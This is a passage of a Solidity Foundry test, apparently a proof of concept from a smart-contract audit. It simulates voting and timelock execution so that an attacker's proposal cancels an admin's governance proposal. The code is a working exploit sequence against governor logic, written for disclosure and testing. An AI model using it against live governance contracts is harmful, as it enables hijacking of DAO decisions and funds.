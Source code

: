 ```Solidity
        (address[] memory t2, uint256[] memory v2, bytes[] memory c2, string memory d2) = craftUpdateQuorumProposal();
        uint pid2 = governor.propose(t2, v2, c2, d2, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote
        hevm.startPrank(beef);
        governor.castVote(pid2, 1);
        hevm.stopPrank();

        hevm.startPrank(dead);
        governor.castVote(pid2, 1);
        hevm.stopPrank();

        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period

        // execution of the last proposal
        hevm.startPrank(beef);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        governor.execute(t2, v2, c2, keccak256(bytes(d2)), MAINNET);
        hevm.stopPrank();

        uint currentQuorum = governor.quorumNumerator();
        console2.log("Current Quorum:  ", currentQuorum);

        // execution of the attacker's proposal which cancels the admin's proposal
        hevm.startPrank(dead);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        governor.execute(t1, v1, c1, keccak256(bytes(d1)), MAINNET);
        hevm.stopPrank();

        uint proposalStatus = uint(governor.state(pid));
        console2.log("Proposal Status is: ", proposalStatus); // The initial proposal is cancelled
    }
```

